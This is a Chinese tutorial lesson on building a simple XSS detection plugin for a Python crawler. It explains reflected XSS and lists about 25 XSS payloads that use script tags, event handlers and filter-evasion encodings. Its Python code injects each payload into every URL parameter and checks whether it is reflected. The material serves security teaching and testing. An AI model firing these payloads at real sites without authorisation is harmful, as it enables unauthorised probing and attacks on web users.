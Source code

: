 # 基于爬虫开发 XSS 检测插件

## 一、实验说明

### 1.1 实验内容

本节课会基于上节课开发的插件框架，讲解 xss 漏洞形成的原理，据此编写一个简单的 XSS 检测插件，先上效果图。

![xss插件效果图](https://dn-anything-about-doc.qbox.me/document-uid102428labid2648timestamp1489725913410.png/wm)

### 1.2 实验知识点

- XSS 基础知识
- XSS 检测原理

### 1.3 实验环境

- Python 2.7
- Xfce 终端
- sublime

### 1.4 适合人群

本课程难度为一般，属于中级级别课程，适合具有 Python 基础的用户，熟悉 python 基础知识加深巩固。

### 1.5 代码获取

你可以通过下面命令将代码下载到实验楼环境中，作为参照对比进行学习。

```
$ wget http://labfile.oss.aliyuncs.com/courses/761/shiyanlouscan3.zip
$ unzip shiyanlouscan3.zip

```

## 二、开发准备

### xss 攻击原理

#### 什么是 XSS

> 跨站脚本攻击 (Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS) 的缩写混淆，故将跨站脚本攻击缩写为 XSS。恶意攻击者往 Web 页面里插入恶意 Script 代码，当用户浏览该页之时，嵌入其中 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的。

#### 为什么要打造这个检测程序？

1. XSS 很少有自动化工具可以对其进行攻击检测
2. 很难发现

#### 敲黑板！！

但是大家不要高兴的太早，我们这篇 xss 检测程序是很原始很初级的自动化检测，只能检测一部分 xss 漏洞，但没关系，我们先做出雏形，在后期维护的时候慢慢增强这个功能。

## 三、实验步骤

### 3.1 上节回顾

在上节课中，我们基于爬虫系统开发出了插件系统，这个系统会非常方便的把爬取出来的链接传递到插件系统中，· 还记得怎么编写吗？我们只需要一个框架：

```
import re,random
from lib.core import Download
class spider:
    def run(self,url,html):
         pass

```

然后将运行函数写到 run 函数里面就可以了, url,html 是插件系统传递过来的链接和链接的网页源码。

### 3.2 XSS 检测原理：

我们这里先做个很简单的 xss 原理检测工具，也很简单，就是通过一些 xss 的 payload 加入到 url 参数中，然后查找 url 的源码中是否存在这个参数，存在则可以证明页面存在 xss 漏洞了。

payload list:

```
</script>"><script>prompt(1)</script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><iframe/src=javascript:prompt(1)>
"><h1 onclick=prompt(1)>Clickme</h1>
"><a href=javascript:prompt(1)>Clickme</a>
"><a href="javascript:confirm%28 1%29">Clickme</a>
"><a href="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+">click</a>
"><textarea autofocus onfocus=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;"1"&#41;>clickme</a>
"><script>co\u006efir\u006d`1`</script>
"><ScRiPt>co\u006efir\u006d`1`</ScRiPt>
"><img src=x onerror=co\u006efir\u006d`1`>
"><svg/onload=co\u006efir\u006d`1`>
"><iframe/src=javascript:co\u006efir\u006d%28 1%29>
"><h1 onclick=co\u006efir\u006d(1)>Clickme</h1>
"><a href=javascript:prompt%28 1%29>Clickme</a>
"><a href="javascript:co\u006efir\u006d%28 1%29">Clickme</a>
"><textarea autofocus onfocus=co\u006efir\u006d(1)>
"><details/ontoggle=co\u006efir\u006d`1`>clickmeonchrome
"><p/id=1%0Aonmousemove%0A=%0Aconfirm`1`>hoveme
"><img/src=x%0Aonerror=prompt`1`>
"><iframe srcdoc="<img src&equals;x:x onerror&equals;alert&lpar;1&rpar;>">
"><h1/ondrag=co\u006efir\u006d`1`)>DragMe</h1>

```

### 3.3 可能大家会问为什么这样就可以检测 xss

答：xss 原理是把输入的代码当作 html 执行了，执行了就会在网页源码中显示，所以我们查找就行。

### 3.4 xss 就这么简单？

错，xss 有各种各样的玩法，本文只是一个简单的工具，用作抛砖引玉。

### 3.5 代码编写

为了以后代码编写的方便，我们编写一个函数取出 url 中的参数，

比如`https://www.shiyanlou.com/courses/?a=1&b=2&c=3` 。

我们要将 1 2 3 都取出来进行替换，所以我们先创建一个公共函数来分割这些文本。

在文件 `lib/core/common.py` 中

```
def urlsplit(url):
    domain = url.split("?")[0]
    _url = url.split("?")[-1]
    pararm = {}
    for val in _url.split("&"):
        pararm[val.split("=")[0]] = val.split("=")[-1]

    #combine
    urls = []
    for val in pararm.values():
        new_url = domain + _url.replace(val,"my_Payload")
        urls.append(new_url)
    return urls

```

这个函数会返回一个元祖将每个参数用 my_Payload 标记，到时候我们替换这个参数就行了。

然后编写我们的 xss 检查程序，这个程序也是一个基于爬虫的框架。

### 3.6 开始之前

开始之前现在目录新建一个 data 文件夹，这个文件夹用于存储我们的一些数据。

然后把 xss payload 放入进入，命名的话随意，这里我就命名为 xss.txt， 内容为之前的 xss payload list。

### 3.7 xss 检测程序代码

在`script`目录下新建文件`xss_check.py`。

代码如下：

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from lib.core import Download,common
import sys,os

payload = []
filename = os.path.join(sys.path[0],"data","xss.txt")
f = open(filename)
for i in f:
    payload.append(i.strip())

class spider():
    def run(self,url,html):
        download = Download.Downloader()
        urls = common.urlsplit(url)

        if urls is None:
            return False
        for _urlp in urls:
            for _payload in payload:
                _url = _urlp.replace("my_Payload",_payload)
                print "[xss test]:",_url
                #我们需要对URL每个参数进行拆分,测试
                _str = download.get(_url)
                if _str is None:
                    return False
                if(_str.find(_payload)!=-1):
                    print "xss found:%s"%url
        return False

```

效果图：

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2648timestamp1489725902024.png/wm)

```
payload = []
filename = os.path.join(sys.path[0],"data","xss.txt")
f = open(filename)
for i in f:
    payload.append(i.strip())

```

这行代码主要实现了读取我们的 xsspayload 文件。

因为文件是在 windows 下生成的，所以我们要对每行用`strip()`过滤下`\n` `空格`等的特殊符号。接下来的代码就是 xss 检测的运行流程了，获取到 url，拆分 url，对每个 url 拆分参数进入注入分析，成功就返回出来。一个很简单的思路。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2648timestamp1489726069536.png/wm)